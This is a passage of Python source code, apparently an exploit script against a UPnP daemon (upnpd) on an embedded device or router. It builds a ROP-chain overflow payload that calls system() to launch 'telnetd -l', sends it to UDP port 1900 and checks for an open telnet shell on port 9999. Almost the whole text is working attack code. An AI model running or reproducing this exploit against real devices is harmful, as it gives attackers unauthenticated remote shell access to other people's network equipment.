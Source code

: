 ```
    expayload += 'c'*4 #R8
    expayload += 'd'*4 #R10
    expayload += p32(0x13648) #strcpy

    print "[*] Make Payload ..."

    """
    .text:0001A83C                 MOV             R0, R4  ; command
    .text:0001A840                 BL              system
    """

    expayload += 'd'*0x5c#dummy
    expayload += p32(bssBase) #R4
    expayload += p32(0x47398) #R5
    expayload += 'c'*4 #R6
    expayload += 'c'*4 #R7
    expayload += 'c'*4 #R8
    expayload += 'd'*4 #R10
    expayload += p32(0x1A83C) #system(string) telnetd -l
    return expayload

def conn(ip):
    s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    s.connect((ip, 1900))
    return s
    print "[*] Send Proof Of Concept payload"


def checkExploit(ip):
    soc = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    try:
        ret = soc.connect((ip,9999))
        return 1
    except:
        return 0

if __name__=="__main__":
    ip = sys.argv[1]
    libc_addr = sys.argv[2]
    banner()
    payload1 = makpayload1()
    payload2 = makpayload2(libc_addr)
    s = conn(ip)
    s.send('a\x00'+payload1) #expayload is rop gadget
    s.send(payload2)
    time.sleep(5)
    if checkExploit(ip):
        print "[*] Exploit Success"
        print "[*] You can access telnet %s 9999"%ip
    else:
        print "[*] Need to Existed Address cross each other"
        print "[*] You need to reboot or execute upnpd daemon to execute upnpd"
        print "[*] To exploit reexecute upnpd, description"
        print "[*] Access http://%s/debug.htm and enable telnet"%ip
        print "[*] then, You can access telnet. execute upnpd(just typing upnpd)"
    s.close()
    print """\n[*] Done ...\n"""
```

